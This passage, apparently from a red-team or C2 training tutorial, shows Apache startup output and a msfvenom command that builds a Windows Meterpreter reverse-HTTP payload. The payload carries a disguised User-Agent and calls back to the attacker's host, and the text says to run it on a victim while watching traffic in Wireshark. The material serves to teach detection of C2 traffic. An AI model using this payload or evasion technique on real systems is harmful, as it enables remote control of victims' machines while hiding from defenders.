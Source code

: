 ```shell
  systemctl restart apache2
Enabling module proxy_http.
To activate the new configuration, you need to run:
  systemctl restart apache2
Enabling module headers.
To activate the new configuration, you need to run:
  systemctl restart apache2

● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: active (running) since Thu 2022-02-10 23:17:08 EST; 7ms ago
       Docs: https://httpd.apache.org/docs/2.4/
    Process: 4149 ExecStart=/usr/sbin/apachectl start (code=exited, status=0/SUCCESS)
   Main PID: 4153 (apache2)
      Tasks: 1 (limit: 19072)
     Memory: 6.0M
        CPU: 19ms
     CGroup: /system.slice/apache2.service
             └─4153 /usr/sbin/apache2 -k start
```

Using Meterpreter, we have the ability to configure various aspects of the HTTP Request, for example, the User-Agent. It is very common for a threat  actor to make a slight adjustment to the User-Agent in their C2  HTTP/HTTPS payloads. It's in every HTTP request, and they all more or  less look the same, and there is a very good chance a security analyst  may overlook a modified user agent string. For this demonstration, we  will generate a Meterpreter Reverse HTTP payload using MSFvenom; then we will inspect the HTTP request in Wireshark. 

**Generating a Payload with Modified Headers -**

- **Generating a Modified HTTP Payload with Meterpreter**        

```shell
root@kali$ msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 454 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe

        
```

After generating the modified executable and transferring it to a victim, open up Wireshark on your host and use the `HTTP` filter to only view HTTP requests. After it's started capturing packets, execute the binary on  the victim system. You will notice an HTTP request come in with our  modified User-Agent.
